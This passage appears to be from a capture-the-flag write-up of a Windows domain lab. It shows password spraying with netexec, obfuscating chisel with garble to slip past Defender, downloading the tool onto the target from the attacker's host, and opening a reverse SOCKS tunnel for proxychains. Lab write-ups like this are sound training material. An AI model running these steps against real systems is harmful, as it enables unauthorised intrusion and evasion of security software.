 Now, spraying the password we have for all users using `netexec`, we see that it also works for the `Krampus_Debugger` user.

```console
$ nxc smb fisher.socmas.corp -u usernames.txt -p 'Ch[REDACTED]4!' --continue-on-success
SMB         10.10.39.152    445    FISHER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FISHER) (domain:socmas.corp) (signing:True) (SMBv1:False)
...
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Krampus_Debugger:Ch[REDACTED]4!
...
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Winterberry_Locksmit:Ch[REDACTED]4!
...
```

### Shell as Krampus_Shadow

Now that we have access to a couple of accounts, we can use `BloodHound` to enumerate the privileges for the accounts. However, we can't simply use `SharpHound` to collect the data since `Defender` is running on the target.

Instead, we can use `bloodhound-python` to collect the data from `LDAP` remotely. But since we can't reach the port for `LDAP`, we first need to use `chisel` to establish a proxy. However, since the default `chisel` executable is caught by `Defender`, we can use [garble](https://github.com/burrowers/garble) to build it ourselves to bypass `Defender` as follows:

```console
$ go install mvdan.cc/garble@latest
$ go install github.com/jpillora/chisel@latest
$ git clone https://github.com/jpillora/chisel chisel-src && cd chisel-src
$ env CGO_ENABLED=0 GOOS=windows GOARCH=amd64 garble -literals -tiny build -ldflags "-s -w -H windowsgui" -trimpath
```

First, we run our chisel server:

```console
$ chisel server -p 7777 --reverse --socks5
```

After that, we transfer the `chisel` executable we built to the server and run it to establish a **SOCKS** proxy.

```
PS C:\Windows\system32> curl http://10.11.72.22/chisel.exe -o C:\ProgramData\chisel.exe
PS C:\Windows\system32> C:\ProgramData\chisel.exe client 10.11.72.22:7777 R:socks
2024/12/19 11:49:04 client: Connecting to ws://10.11.72.22:7777
2024/12/19 11:49:05 client: Connected (Latency 83.2833ms)
```

Modifying our `proxychains` config to use the **SOCKS** proxy.

```
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5 127.0.0.1 1080
```
{: file="/etc/proxychains4.conf" }
